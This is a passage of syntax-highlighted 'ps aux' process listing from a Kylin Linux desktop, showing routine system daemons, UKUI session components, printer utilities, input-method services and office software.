<span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">root        <span class="number">1543</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">root        <span class="number">1585</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">312932</span>  <span class="number">4800</span> ?        SLsl <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/lightdm</span><br><span class="line">root        <span class="number">1590</span>  <span class="number">0.0</span>  <span class="number">0.2</span> <span class="number">128148</span> <span class="number">22276</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/python3 /usr/bin/kylin-unattended-upgrade-shutdown --wait-<span class="keyword">for</span>-signal</span><br><span class="line">root        <span class="number">1654</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">10984</span>  <span class="number">1428</span> tty1     Ss+  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /sbin/agetty -o -p -- \u --noclear tty1 linux</span><br><span class="line">root        <span class="number">1656</span>  <span class="number">9.8</span>  <span class="number">0.4</span> <span class="number">458208</span> <span class="number">38724</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">2</span>:<span class="number">07</span> /usr/sbin/kysec-sync-daemon --init</span><br><span class="line">root        <span class="number">1666</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">131756</span>  <span class="number">3980</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/ukui-media-control-led</span><br><span class="line">root        <span class="number">1680</span>  <span class="number">0.1</span>  <span class="number">0.0</span> <span class="number">132104</span>  <span class="number">5852</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> /usr/bin/monitorkeyDbus</span><br><span class="line">root        <span class="number">2077</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">123252</span>  <span class="number">3816</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/ukui-greeter/ukui-greeter-daemon</span><br><span class="line">root        <span class="number">2121</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">179776</span>  <span class="number">7232</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> lightdm --session-child <span class="number">12</span> <span class="number">19</span></span><br><span class="line">root        <span class="number">2248</span>  <span class="number">0.0</span>  <span class="number">0.4</span> <span class="number">108480</span> <span class="number">37532</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/python3 /usr/share/kylin-system-updater/kylin-upgrade-strategies</span><br><span class="line">root        <span class="number">2250</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">135212</span>  <span class="number">8772</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/backup-daemon</span><br><span class="line">root        <span class="number">2278</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">350404</span>  <span class="number">8620</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/uniauth-backend</span><br><span class="line">root        <span class="number">2310</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">2300</span>   <span class="number">776</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /vendor/oam_hisi</span><br><span class="line">admin       <span class="number">2422</span>  <span class="number">0.0</span>  <span class="number">0.1</span>  <span class="number">18804</span>  <span class="number">8320</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd --user</span><br><span class="line">admin       <span class="number">2423</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">175460</span>  <span class="number">2648</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> (sd-pam)</span><br><span class="line">admin       <span class="number">2456</span>  <span class="number">9.8</span>  <span class="number">3.6</span> <span class="number">4066656</span> <span class="number">290184</span> ?      Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">2</span>:<span class="number">05</span> ukui-kwin_wayland --xwayland --drm --no-lockscreen --exit-with-session=/usr/bin/ukui-session</span><br><span class="line">admin       <span class="number">2497</span>  <span class="number">0.3</span>  <span class="number">0.0</span>  <span class="number">12352</span>  <span class="number">6964</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only</span><br><span class="line">admin       <span class="number">2553</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">5420</span>  <span class="number">1368</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/ssh-agent /opt/sogouimebs/files/bin/sogouimebs-session /usr/bin/im-launch /usr/bin/ukui-session-wayland</span><br><span class="line">root        <span class="number">2576</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kbase_event]</span><br><span class="line">admin       <span class="number">2593</span>  <span class="number">5.7</span>  <span class="number">2.2</span> <span class="number">1504956</span> <span class="number">181760</span> ?      Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">1</span>:<span class="number">13</span> /usr/bin/Xwayland -displayfd <span class="number">44</span> -rootless -wm <span class="number">47</span></span><br><span class="line">admin       <span class="number">2617</span>  <span class="number">0.6</span>  <span class="number">0.5</span> <span class="number">521416</span> <span class="number">41620</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">07</span> /usr/bin/ukui-session</span><br><span class="line">admin       <span class="number">2639</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">156504</span>  <span class="number">4444</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/dconf-service</span><br><span class="line">admin       <span class="number">2652</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">2216</span>   <span class="number">544</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /bin/sh /usr/share/hw-audio/hwaudioservice.sh</span><br><span class="line">admin       <span class="number">2656</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">591760</span> <span class="number">38564</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/sni-daemon</span><br><span class="line">admin       <span class="number">2657</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">431072</span>  <span class="number">5708</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/hwaudioservice</span><br><span class="line">admin       <span class="number">2658</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">592724</span> <span class="number">39200</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/sni-xembed-proxy</span><br><span class="line">admin       <span class="number">2659</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">517916</span> <span class="number">38436</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/panel-daemon</span><br><span class="line">admin       <span class="number">2664</span>  <span class="number">0.8</span>  <span class="number">1.0</span> <span class="number">2589400</span> <span class="number">80956</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">10</span> /usr/bin/ukui-settings-daemon</span><br><span class="line">admin       <span class="number">2666</span>  <span class="number">0.6</span>  <span class="number">1.0</span> <span class="number">1712672</span> <span class="number">83404</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">08</span> /usr/bin/ukui-panel</span><br><span class="line">admin       <span class="number">2668</span>  <span class="number">0.4</span>  <span class="number">1.7</span> <span class="number">1793296</span> <span class="number">140080</span> ?      Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">06</span> /usr/bin/peony-qt-desktop -w -d</span><br><span class="line">admin       <span class="number">2686</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">1479520</span> <span class="number">9356</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/pulseaudio --daemonize=no --log-target=journal</span><br><span class="line">root        <span class="number">2706</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12928</span>  <span class="number">4052</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/bluetooth/bluetoothd</span><br><span class="line">admin       <span class="number">2712</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">243352</span>  <span class="number">5592</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd</span><br><span class="line">admin       <span class="number">2719</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">378644</span>  <span class="number">2596</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-fuse /run/user/<span class="number">1000</span>/gvfs -f -o big_writes</span><br><span class="line">admin       <span class="number">2721</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">391940</span> <span class="number">11212</span> ?        SLsl <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfs-udisks2-volume-monitor</span><br><span class="line">admin       <span class="number">2754</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">239340</span>  <span class="number">5060</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfs-mtp-volume-monitor</span><br><span class="line">admin       <span class="number">2758</span>  <span class="number">0.3</span>  <span class="number">1.1</span> <span class="number">695096</span> <span class="number">88412</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-control-center-session</span><br><span class="line">admin       <span class="number">2763</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">241188</span>  <span class="number">5804</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfs-gphoto2-volume-monitor</span><br><span class="line">admin       <span class="number">2772</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">239344</span>  <span class="number">5220</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfs-goa-volume-monitor</span><br><span class="line">admin       <span class="number">2776</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">320480</span>  <span class="number">7192</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfs-afc-volume-monitor</span><br><span class="line">root        <span class="number">2786</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">362904</span> <span class="number">11140</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/ukui-powermanagement-service</span><br><span class="line">admin       <span class="number">2792</span>  <span class="number">0.3</span>  <span class="number">0.8</span> <span class="number">566888</span> <span class="number">65800</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> python3 /opt/hp/hplip/bin/systray.py -x</span><br><span class="line">admin       <span class="number">2801</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12152</span>  <span class="number">2856</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/bash /usr/local/hwupdate/runApp.sh</span><br><span class="line">admin       <span class="number">2802</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">197048</span>  <span class="number">2728</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/local/hwupdate/update_checker</span><br><span class="line">admin       <span class="number">2803</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">391532</span>  <span class="number">4320</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-network --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">0</span></span><br><span class="line">admin       <span class="number">2805</span>  <span class="number">0.2</span>  <span class="number">0.3</span> <span class="number">254224</span> <span class="number">29556</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">03</span> ./update_checkApp</span><br><span class="line">admin       <span class="number">2818</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">591516</span> <span class="number">37036</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/sbin/ksc-virus-dialog</span><br><span class="line">root        <span class="number">2824</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">278940</span> <span class="number">10404</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/launchSysDbus</span><br><span class="line">admin       <span class="number">2842</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">912372</span> <span class="number">53092</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/kylin-device-daemon</span><br><span class="line">admin       <span class="number">2843</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">761920</span> <span class="number">50144</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/kylin-id</span><br><span class="line">admin       <span class="number">2844</span>  <span class="number">0.4</span>  <span class="number">0.7</span> <span class="number">1013860</span> <span class="number">57064</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">05</span> /usr/bin/kylin-nm</span><br><span class="line">admin       <span class="number">2845</span>  <span class="number">0.3</span>  <span class="number">0.5</span> <span class="number">758440</span> <span class="number">45796</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/kylin-printer-applet</span><br><span class="line">admin       <span class="number">2850</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12832</span>  <span class="number">3496</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/kylin-updatefinish-notify-new</span><br><span class="line">admin       <span class="number">2852</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">517480</span> <span class="number">37148</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/user-guide-daemon</span><br><span class="line">admin       <span class="number">2854</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">694640</span> <span class="number">47948</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">05</span> /usr/bin/kylin-vpn</span><br><span class="line">admin       <span class="number">2855</span>  <span class="number">0.3</span>  <span class="number">1.1</span> <span class="number">1238932</span> <span class="number">90420</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/kylin-weather showmainwindow%u</span><br><span class="line">admin       <span class="number">2861</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">19724</span>   <span class="number">976</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/sdk-date</span><br><span class="line">admin       <span class="number">2868</span>  <span class="number">0.7</span>  <span class="number">1.0</span> <span class="number">1387288</span> <span class="number">85160</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">09</span> /usr/bin/ukui-menu</span><br><span class="line">admin       <span class="number">2870</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">858352</span> <span class="number">54132</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /opt/pantum/bin/pantum_scanapp <span class="number">0</span></span><br><span class="line">admin       <span class="number">2878</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">931272</span> <span class="number">55372</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /opt/pantum/bin/pantum_smclient -s</span><br><span class="line">admin       <span class="number">2882</span>  <span class="number">0.3</span>  <span class="number">0.9</span> <span class="number">695948</span> <span class="number">72868</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/lib/aarch64-linux-gnu/ukui-polkit/polkit-ukui-authentication-agent<span class="number">-1</span></span><br><span class="line">admin       <span class="number">2884</span>  <span class="number">0.0</span>  <span class="number">0.3</span>  <span class="number">64380</span> <span class="number">31364</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/python3 /usr/share/system-config-printer/applet.py</span><br><span class="line">admin       <span class="number">2926</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">516820</span> <span class="number">34460</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/lib/aarch64-linux-gnu/libexec/kf5/kscreen_backend_launcher</span><br><span class="line">admin       <span class="number">2928</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">590504</span> <span class="number">11900</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/bluetoothService -o</span><br><span class="line">admin       <span class="number">2934</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">591984</span> <span class="number">39508</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-powermanagement</span><br><span class="line">admin       <span class="number">2935</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">432916</span>  <span class="number">9472</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/ukui-screensaver-backend</span><br><span class="line">admin       <span class="number">2942</span>  <span class="number">0.3</span>  <span class="number">0.5</span> <span class="number">625232</span> <span class="number">42532</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-search-app-data-service</span><br><span class="line">admin       <span class="number">2946</span>  <span class="number">0.3</span>  <span class="number">0.5</span> <span class="number">531940</span> <span class="number">40076</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-search-service-dir-manager</span><br><span class="line">admin       <span class="number">2950</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">605568</span> <span class="number">38780</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-search-service</span><br><span class="line">admin       <span class="number">2952</span>  <span class="number">0.5</span>  <span class="number">1.0</span> <span class="number">970376</span> <span class="number">80276</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">06</span> /usr/bin/ukui-search</span><br><span class="line">admin       <span class="number">2953</span>  <span class="number">0.3</span>  <span class="number">0.7</span> <span class="number">694932</span> <span class="number">61720</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-sidebar</span><br><span class="line">admin       <span class="number">2954</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">591956</span> <span class="number">39084</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-upower</span><br><span class="line">admin       <span class="number">2958</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">881672</span> <span class="number">51552</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/ukui-volume-control-applet-qt</span><br><span class="line">admin       <span class="number">2959</span>  <span class="number">0.5</span>  <span class="number">0.5</span> <span class="number">546300</span> <span class="number">45460</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">07</span> /usr/bin/ukui-watermark</span><br><span class="line">admin       <span class="number">2983</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">592236</span> <span class="number">37768</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/NotifySend --DesktopNotify</span><br><span class="line">admin       <span class="number">3025</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">1230400</span> <span class="number">3740</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> ./yh-signature-server/yh-signature-server -c /opt/SC-Reader/server/yh-signature-server/config.toml</span><br><span class="line">root        <span class="number">3048</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">283136</span> <span class="number">10056</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/kysec-auth-daemon</span><br><span class="line">admin       <span class="number">3068</span>  <span class="number">0.3</span>  <span class="number">0.4</span> <span class="number">592180</span> <span class="number">37800</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/bin/NotifySend --WaitSignalNotify</span><br><span class="line">root        <span class="number">3077</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">733048</span>  <span class="number">8188</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/ksc-virus-daemon</span><br><span class="line">root        <span class="number">3078</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">127148</span>  <span class="number">4076</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/profileDaemon</span><br><span class="line">root        <span class="number">3165</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">256236</span>  <span class="number">8020</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/upower/upowerd</span><br><span class="line">admin       <span class="number">3201</span>  <span class="number">0.6</span>  <span class="number">0.4</span> <span class="number">519184</span> <span class="number">31972</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">07</span> /opt/sogouimebs/files/bin/sogouImeService-watchdog</span><br><span class="line">admin       <span class="number">3219</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">317964</span>  <span class="number">7676</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-computer --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">2</span></span><br><span class="line">admin       <span class="number">3227</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">1447000</span> <span class="number">3276</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /opt/SC-Reader/server/yh-signature-server/yh-oes -m <span class="number">1</span> -c /opt/SC-Reader/server/yh-signature-server/oes.toml</span><br><span class="line">admin       <span class="number">3293</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">319016</span>  <span class="number">5352</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-dnssd --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">3</span></span><br><span class="line">admin       <span class="number">3370</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">10144</span>  <span class="number">3856</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /opt/kingsoft/wps-office/office6/wpsd --quickstart=wps,wpp,et --component=wps,wpp,et --mode=window</span><br><span class="line">admin       <span class="number">3382</span>  <span class="number">0.4</span>  <span class="number">0.9</span> <span class="number">690972</span> <span class="number">76328</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">05</span> /opt/kingsoft/wps-office/office6/wpscloudsvr /jsapihttpserver ksowpscloudsvr:<span class="comment">//start=RelayHttpServer</span></span><br><span class="line">admin       <span class="number">3394</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">317616</span>  <span class="number">7772</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-trash --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">4</span></span><br><span class="line">admin       <span class="number">3438</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">7260</span>  <span class="number">1720</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/krd-daemon</span><br><span class="line">root        <span class="number">3451</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">123236</span>  <span class="number">4796</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/ukui-search-systemdbus</span><br><span class="line">admin       <span class="number">3503</span>  <span class="number">0.2</span>  <span class="number">0.3</span>  <span class="number">65796</span> <span class="number">26064</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">03</span> python3 /opt/hp/hplip/bin/systray.py -x</span><br><span class="line">admin       <span class="number">3504</span>  <span class="number">0.0</span>  <span class="number">0.2</span>  <span class="number">51584</span> <span class="number">21120</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> python3 /opt/hp/hplip/bin/systray.py -x</span><br><span class="line">root        <span class="number">3546</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">99384</span>  <span class="number">5804</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /sbin/dhclient -d -q -sf /usr/lib/NetworkManager/nm-dhcp-helper -pf /run/NetworkManager/dhclient-enxa446b4906694.pid -lf /var/lib/NetworkManager/dhclient<span class="number">-554</span>b6c8e-b7d2<span class="number">-3e8</span>e<span class="number">-928e-1</span>dacd2c44175-enxa446b4906694.lease -cf /var/lib/NetworkManager/dhclient-enxa446b4906694.conf enxa446b4906694</span><br><span class="line">admin       <span class="number">3559</span>  <span class="number">1.2</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">16</span> [hp-upgrade] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">3620</span>  <span class="number">0.0</span>  <span class="number">0.5</span> <span class="number">279348</span> <span class="number">42888</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> fcitx</span><br><span class="line">admin       <span class="number">3680</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">11132</span>  <span class="number">4728</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/dbus-daemon --syslog --fork --print-pid <span class="number">5</span> --print-address <span class="number">7</span> --config-file /usr/share/fcitx/dbus/daemon.conf</span><br><span class="line">admin       <span class="number">3759</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">4976</span>  <span class="number">1756</span> ?        SN   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/fcitx-dbus-watcher unix:<span class="keyword">abstract</span>=/tmp/dbus-rSbHt2L6eb,guid=eb4e97ffd353e0b5d09494eb658142b2 <span class="number">3680</span></span><br><span class="line">root        <span class="number">3826</span>  <span class="number">0.0</span>  <span class="number">0.2</span> <span class="number">528012</span> <span class="number">16744</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/kylin-daemon/kylin-proxy</span><br><span class="line">admin       <span class="number">4155</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">165960</span>  <span class="number">5508</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-metadata</span><br><span class="line">admin       <span class="number">4953</span>  <span class="number">0.3</span>  <span class="number">0.9</span> <span class="number">1001624</span> <span class="number">76276</span> ?       Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /opt/sogouimebs/files/bin/sogouImeService</span><br><span class="line">admin       <span class="number">5141</span>  <span 